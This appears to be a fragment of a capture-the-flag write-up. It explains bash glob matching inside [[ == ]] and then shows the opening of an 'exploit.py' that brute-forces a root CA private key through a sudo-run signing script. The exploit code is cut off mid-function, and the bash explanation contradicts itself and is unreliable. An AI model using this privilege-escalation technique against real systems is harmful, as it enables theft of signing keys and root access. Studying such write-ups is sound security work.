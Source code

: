 let me explain :

```
//lets take two strings a and b

#!/bin/bash

a="Hello I am Sed"
b="Hell*"

# Perform pattern matching
if [[ $a == $b ]]; then 
    echo 'a matches b'  # condition 1
else
    echo 'a does not match b'
fi

# Reverse check
if [[ $b == $a ]]; then
    echo 'b matches a'   # condition 2
else
    echo 'b does not match a'
fi

```
the first if statement, == checks for exact equality. Since "Hell*" is not equal to "Hello I am Sed", this condition will also be false. Because the condition is false, echo 'a==b' will not be executed.
But in the second statement 'Hell' is present the condition will be executed

wrote a python script to return the root CA certificate 

<details>
<summary> Exploit Code - exploit.py </summary>
  <br>
  
```python
import subprocess
import string

CA_PATH = '/tmp/ca-test'
SIGNING_SCRIPT = '/opt/sign_key.sh'
PUB_KEY = 'root.pub'
USER = 'root'
PRINCIPAL = 'root_user'
SERIAL = 'ABCD'

def run_signing_command(pattern):
    with open(CA_PATH, 'wb') as f:
        f.write(pattern.encode('utf-8'))

    try:
        result = subprocess.run(
            ['bash', '-c', f"echo -n '{pattern}' > {CA_PATH}; sudo {SIGNING_SCRIPT} {CA_PATH} {PUB_KEY} {USER} {PRINCIPAL} {SERIAL}"],
            capture_output=True,
            text=True
        )
        return result.stdout.strip(), result.stderr.strip()
    except Exception as e:
        print(f"Error running command: {e}")
        return "", str(e)

def brute_force_patterns(base_pattern=''):
    chars = string.ascii_letters + string.digits + '-+=/ \r\n'

```